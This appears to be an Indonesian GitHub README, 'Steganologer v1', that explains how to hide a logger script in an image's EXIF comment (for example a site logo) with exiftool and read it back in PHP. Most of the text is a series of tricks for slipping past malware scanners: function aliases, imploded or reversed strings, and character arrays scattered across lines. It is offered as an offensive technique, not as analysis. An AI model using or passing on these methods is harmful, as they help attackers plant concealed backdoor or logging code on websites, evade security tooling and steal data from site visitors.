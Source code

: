 # Steganologer v1

Pada Steganologer versi 1 memanfaatkan exif metadata untuk menyisipkan script loger.
untuk membaca metadata suatu gambar anda bisa memakai function [exif_read_data()](http://php.net/manual/en/function.exif-read-data.php) dan [read_exif_data()](http://php.net/manual/en/function.read-exif-data.php) pada php.

Untuk memanipulasi exif metadata anda bisa menggunakan pothoshop,exifpilot dll pada sistem operasi windows, sedangkan pada linux anda bisa menggunakan exiftool.
Anda bisa menyisipkannya di logo atau icon pada website.

```
exiftool -Comment="scriptloger" filegambar.jpg
```

### Reader


```php
$steganologer = exif_read_data("bunglon.jpg");
echo $steganologer['COMMENT'][0];
```

### Bypass

bila scanner memblacklist kata [exif_read_data()](http://php.net/manual/en/function.exif-read-data.php) .
anda bisa mengakalinya dengan [read_exif_data()](http://php.net/manual/en/function.read-exif-data.php).

bila [read_exif_data()](http://php.net/manual/en/function.read-exif-data.php) juga di blasklist.
anda masih bisa membypassnya dengan array lalu di implode.
```php
implode("_",["exif","read","data"])("bunglon.jpg")
```

bila kata "exif" di blacklist juga maka bisa di bypass dengan membalikkan katanya menjadi "fixe" lalu manfaatkan function [strrev()](http://php.net/manual/en/function.strrev.php) di php.

dan bila kata fixe juga di blacklist maka bisa di bypass dengan manjadikan tiap hurufnya menjadi array
```php
implode("",["e","x","i","f","_","r","e","a","d","_","d","a","t","a"])("bunglon.jpg")
```
dan bila array berikut 
```
'"e","x","i","f","_","r","e","a","d","_","d","a","t","a"' 
```
di blacklist maka pecah saja menjadi
```php
$kata[] = "e";
$kata[] = "x";
$kata[] = "i";
$kata[] = "f";
$kata[] = "_";
$kata[] = "r";
$kata[] = "e";
$kata[] = "a";
$kata[] = "d";
$kata[] = "_";
$kata[] = "d";
$kata[] = "a";
$kata[] = "t";
$kata[] = "a";
```

lalu sebarkan :v di beda line script asal urutannya benar pasti functionnya kembali seperti semula namun bila takut tak urut maka masukan keynya saja sehingga menjadi seperti berikut ini

```php
$kata[0] = "e";
$kata[1] = "x";
$kata[2] = "i";
$kata[3] = "f";
$kata[4] = "_";
$kata[5] = "r";
$kata[6] = "e";
$kata[7] = "a";
$kata[8] = "d";
$kata[9] = "_";
$kata[10] = "d";
$kata[11] = "a";
$kata[12] = "t";
$kata[13] = "a";
```

lalu sebar sesuka anda dan di line berapa pun nanti ketika di implode akan kembali. 

```php
implode("",$kata)("bunglon.jpg")
```

bila scanner memblacklist ")(" maka bypass dengan  memisahkan function implode

```php
$implode = implode("",$kata);

echo $implode("bunglon.jpg")
```

masih banyak function php yang bisa di manfaatkan untuk bermain loger explore dan manfaatkan.